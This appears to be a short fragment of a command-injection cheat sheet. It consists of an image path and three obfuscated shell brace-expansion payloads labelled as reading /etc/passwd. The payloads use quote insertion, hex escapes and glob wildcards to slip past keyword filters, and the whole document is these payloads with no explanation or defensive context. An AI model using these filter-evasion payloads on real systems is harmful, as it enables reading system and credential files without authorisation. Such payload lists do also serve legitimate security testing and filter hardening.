 # cat /etc/passwd (obfuscated)

```
{\c''\a""\t,/\e''*?/\p*\d}
´´´
```
{$'\x63'\a$'\x74',/\e''*?/\p*$'\x64'}
´´´
```
{/b??/g?e?,.*,/e??/p???? d}
´´´
